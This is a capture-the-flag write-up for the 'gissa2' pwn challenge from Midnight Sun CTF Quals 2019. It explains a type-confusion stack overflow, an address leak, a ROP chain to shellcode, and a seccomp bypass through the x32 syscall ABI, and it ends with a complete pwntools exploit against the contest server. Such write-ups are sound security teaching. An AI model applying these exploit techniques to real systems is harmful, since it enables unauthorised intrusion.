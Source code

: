```yaml
---
layout: post
title: MidnightsunCTF Quals 2019 - gissa2 (631 pts, 15 solves)
category: Pwn
tags: 
    - LevitatingLion
---
```


> Last year some dirty hackers found a way around my guessing challenge, well I patched the issue. Can you guess again?
>
> Service: nc gissa-igen-01.play.midnightsunctf.se 4096
>
> Download: [gissa_igen.tar.gz](https://s3.eu-north-1.amazonaws.com/dl.2019.midnightsunctf.se/529C928A6B855DC07AEEE66037E5452E255684E06230BB7C06690DA3D6279E4C/gissa_igen.tar.gz)

## Analysis

The provided binary first `mmap`s the flag and then lets us try to guess it.
After mapping the flag, the binary also installs a seccomp filter which forbids the system calls `open`, `clone`, `fork`, `vfork`, `execve`, `creat`, `openat` and `execveat`.

The length of the buffer our input is read to is stored in the `main()` function as a `uint16_t`, but a pointer to this length is passed to the `guess_flag()` function as a `uint32_t *`.
Right after the buffer length the current number of tries is stored, so when `guess_flag()` accesses the buffer length, it actually uses both of these values.
This has the effect that on our first guess, the buffer length has the correct value of 0x8b, but on the second guess, the buffer length has increased to 0x1008b, which leads to a stack buffer overflow.

## Exploit: ROP

No canary is used, so we can easily overwrite the return address. The only problem left before we can execute a ROP chain is that we don't know the binary's base address (it's a PIE).
But that's easily solved: because the binary doesn't terminate our input string, we can leak the original return address before sending our ROP chain.
However, when we gain control of the execution flow, the flag has already been unmapped and its file descriptor closed.
There's no way for us to divert the execution flow before that point, so we have to find a way to bypass the seccomp filter.

## ROP to Shellcode

To ease bypassing of the seccomp filter, let's first set up a ROP chain to get shellcode execution.
The ROP chain is pretty straightforward: map some RWX memory at a fixed address, read our next input into it, and jump there.

```python
sc_addr = 0x1337000
rop = rop_call(binary + off_mmap, sc_addr, 0x10000, 7, 0x32, -1, 0)
rop += rop_call(binary + off_read, 0, sc_addr, 0x10000)
rop += p64(sc_addr)
```

## Bypass seccomp Filter

Now that we can execute shellcode, the only thing left is somehow bypassing the seccomp filter in order to read the flag.
Here's the filter used:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x15 0x00 0x01 0x00000038  if (A != clone) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x15 0x00 0x01 0x00000039  if (A != fork) goto 0010
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 0010: 0x15 0x00 0x01 0x0000003a  if (A != vfork) goto 0012
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 0012: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0014
 0013: 0x06 0x00 0x00 0x00000000  return KILL
 0014: 0x15 0x00 0x01 0x00000055  if (A != creat) goto 0016
 0015: 0x06 0x00 0x00 0x00000000  return KILL
 0016: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0018
 0017: 0x06 0x00 0x00 0x00000000  return KILL
 0018: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0020
 0019: 0x06 0x00 0x00 0x00000000  return KILL
 0020: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

The filter checks the current architecture, so we cannot bypass it by switching to 32-bit mode
However, if we set bit 30 of the syscall number, we can access the 'x32' syscall ABI, which provides basically the same system calls and is not blocked by the seccomp filter.
Thus, using syscall 0x40000002 instead of 2 for open lets us open and print the flag.

```asm
# open(0x1338000, 0, 0) - 0x1338000 contains the path
mov rax, 0x40000002
mov rdi, 0x1338000
mov rsi, 0
mov rdx, 0
syscall

# read(flag, 0x1338000, 0x100)
mov rdi, rax
mov rax, 0
mov rsi, 0x1338000
mov rdx, 0x100
syscall

# write(1, 0x1338000, 0x100)
mov rax, 1
mov rdi, 1
mov rsi, 0x1338000
mov rdx, 0x100
syscall
```

Flag: `midnight{I_kN3w_1_5H0ulD_h4v3_jUst_uS3d_l1B5eCC0mP}`

## Exploit Code

```python
from pwn import *

context.binary = 'gissa_igen'

shellcode = asm('''
    mov rax, 0x40000002
    mov rdi, 0x1338000
    mov rsi, 0
    mov rdx, 0
    syscall

    mov rdi, rax
    mov rax, 0
    mov rsi, 0x1338000
    mov rdx, 0x100
    syscall

    mov rax, 1
    mov rdi, 1
    mov rsi, 0x1338000
    mov rdx, 0x100
    syscall
''')

g = remote('gissa-igen-01.play.midnightsunctf.se', 4096)

# increase buf_len
g.sendlineafter('flag (', '')
g.recvuntil('try again')

# overwrite buf_len with 168
g.sendlineafter('flag (', 'A' * 140 + p32(168) + p64(0) * 2)

# leak binary addr
g.sendafter('flag (', 'A' * 140 + '\xff\xff' + '\x01\x01' + 'B' * 8 + '\xff' * 8 + 'C' * 8)
g.recvuntil('C' * 8)
binary = u64(g.recvuntil(' is not right', drop=True).ljust(8, '\0')) - 0xbc5
info("binary @ 0x%x", binary)

# ROP to shellcode

def rop_call(func, rdi=0, rsi=0, rdx=0, rcx=0, r8=0, r9=0):
    return flat(binary + 0xc1f, rcx, 0, 0, 0, binary + 0xc1d, rdx, r9, r8, rdi, rsi, func)

sc_addr = 0x1337000
# mmap
rop = rop_call(binary + 0xc0c, sc_addr, 0x10000, 7, 0x32, -1, 0)
# read
rop += rop_call(binary + 0xbd4, 0, sc_addr, 0x10000)
rop += p64(sc_addr)
g.sendlineafter('flag (', 'A' * 168 + rop)

g.sendafter('not right.\n', shellcode.ljust(0x1000, '\0') + '/home/ctf/flag\0')

g.interactive()
```
